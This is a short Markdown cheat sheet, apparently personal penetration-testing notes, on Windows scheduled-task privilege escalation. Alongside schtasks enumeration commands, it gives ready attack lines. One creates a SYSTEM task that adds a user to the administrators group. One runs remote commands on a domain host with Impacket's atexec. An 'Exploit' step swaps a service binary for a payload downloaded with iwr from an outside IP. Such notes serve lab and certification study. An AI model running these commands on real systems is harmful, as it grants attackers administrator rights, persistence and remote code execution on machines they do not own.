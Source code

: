 - Run as User: admin/System?
- triggers: When/How to run? Reboot? a minute?
- approach: Path/Binary/dll
### schtasks
```powershell
Get-ScheduledTask
schtasks /query /fo LIST /v    #/fo LIST 列表输出; /v verbose
schtasks /query /tn {$taskname} /fo list /v 

schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

#Schtask to give admin access
#You can also write that content on a bat file that is being executed by a scheduled task
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators user /add"
```
### Check task Details
```powershell
schtasks /query /tn {$taskname} /fo list /v   #计划任务详情
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe #check binary
```
### Impacket -- Domain
```bash
python3 atexec.py Domain/Administrator:<Password>@123@172.21.0.0 systeminfo
```
# Exploit
## Replace Binary
```powershell
ren <services_binary> <services_binary> .old
iwr -Uri http://192.168.119.3/payload -Outfile <services_binary>
```
